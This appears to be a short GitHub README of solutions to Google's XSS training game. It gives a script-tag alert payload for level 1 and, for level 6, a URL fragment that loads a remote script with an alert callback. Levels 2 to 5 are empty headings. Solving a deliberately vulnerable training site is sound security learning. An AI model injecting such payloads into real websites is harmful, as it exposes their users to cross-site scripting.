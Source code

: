 # xss-google-game

Start 
https://xss-game.appspot.com/

# Level 1 
payload search bar
```javascript
<script>alert(1)</script>
```
![level-1](https://raw.githubusercontent.com/BruceGitHub/xss-google-game/d57df3d78a58573a90a0bd159f8dff1bd19a8ec6/level_1.jpeg)

# Level 2



# Level 3
# Level 4
# Level 5
# Level 6

payload url bar
```javascript
https://xss-game.appspot.com/level6/frame# https://google.com/jsapi?callback=alert
```
![level-6](https://raw.githubusercontent.com/BruceGitHub/xss-google-game/659ea65a0ad4d6531e3040bfb5780e4a44d4eb42/level_6.jpeg)

# Index 


![finael-level](https://raw.githubusercontent.com/BruceGitHub/xss-google-game/4e249728031fc323f6c06159c37c55ff832dca13/xss%20game%20yee.jpeg)


![level-index](https://raw.githubusercontent.com/BruceGitHub/xss-google-game/f0f11da483e2c17edcf068af9dfffecb6348192e/index_level_complete.jpeg)


